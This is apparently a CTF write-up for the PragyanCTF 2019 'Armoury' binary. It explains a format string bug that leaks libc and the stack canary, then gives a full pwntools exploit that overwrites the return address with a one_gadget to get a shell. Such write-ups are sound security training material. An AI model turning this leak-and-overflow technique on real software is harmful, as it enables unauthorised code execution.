 ```yaml
---
layout: post
cover: 'assets/images/cover8.jpg'
navigation: true
title: PragyanCTF2019 - Armoury
date: 2019-03-11
tags: pwnable writeup
subclass: 'post'
logo: 'assets/images/ghost.png'
author: lanphere
categories: lanphere
disqus: true
---
```


GitHub에도 Writeup을 같이 올리다보니 한글 영어 둘 다 써야해서 이제 그냥 영어로 써야겠다.

```
[*] '/mnt/hgfs/Shared/armoury'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

FULL RELRO, Canary, NX, PIE.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v3; // eax
  signed int v5; // [rsp+Ch] [rbp-34h]
  char buffer_1[15]; // [rsp+11h] [rbp-2Fh]
  char buffer_2[24]; // [rsp+20h] [rbp-20h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  initialize();
  puts("*******Rifle Database**************");
  v5 = 2;
  while ( 1 )
  {
    v3 = v5--;
    if ( v3 <= 0 )
      break;
    puts("\nEnter the name of Rifle to get info:");
    __isoc99_scanf("%s", buffer_1);
    if ( !strcmp(buffer_1, "Exit") )
      break;
    puts("\n----------------DATA-------------------");
    printf(buffer_1, "Exit");
    giveInfo(buffer_1);
    puts("---------------------------------------");
  }
  puts("Would you like to give us some feedback:");
  __isoc99_scanf("%s", buffer_2);
  puts("Thank you");
  return 0;
}
```

Nothing special. Get user input and print it. Don't care about giveInfo(). The function simply searches user input in the list of rifles and print the description of the rifle.

This binary has format string vulnerability in `printf(buffer_1, "Exit");`

```
*******Rifle Database**************

Enter the name of Rifle to get info:
%p

----------------DATA-------------------
0x7fda78a847e3:
Sorry... We dont have any information about %p
---------------------------------------
```

We can get libc leak from the first %p of format string.

```
*******Rifle Database**************

Enter the name of Rifle to get info:
AAAA%p%p%p%p%p%p%p%p

----------------DATA-------------------
AAAA0x7f1e5d1657e30x7f1e5d1668c00x7f1e5d0962a40x7f1e5d16b5000xa0x10x1fe37dced0x25702541414141a0:
Sorry... We dont have any information about AAAA%p%p%p%p%p%p%p%p
```

and data in stack is revealed from 8th %p, canary from 13th %p. Since we know the canary value, we can directly overflow the stack and bypass canary check without destroying canary.

Scenario is,

1. Libc, canary leak from first procedure
2. buffer overflow, overwrite return address with one_gadget
3. recovery canary value at feedback input

```
from pwn import *

p = process('./armoury')
bin = ELF('./armoury')

one_gadget_offset = 0xe42ee # 0x4345e 0x434b2 0xe42ee

# gdb.attach(p, '')

# Format String, Libc leak
p.sendlineafter('get info:\n', '%p%13$p%17$p')
p.recvuntil('---\n')
result = p.recvuntil(':').split('0x')
log.info(result)
libc_addr = int(result[1], 16) - 0x1b87e3
canary = int(result[2], 16)
one_gadget_addr = libc_addr + one_gadget_offset
log.info('Libc Addr: ' + hex(libc_addr))
log.info('Canary Value: ' + hex(canary))
log.info('One_gadget Addr: ' + hex(one_gadget_addr))

# Overwrite return addr with one_gadget
payload = 'A' * 39 + p64(canary | 0xff) + 'BBBBBBBB'
payload += p64(one_gadget_addr)
p.sendlineafter('get info:\n', payload)
payload = 'A' * 24
p.sendlineafter('feedback:\n', payload)

p.interactive()
```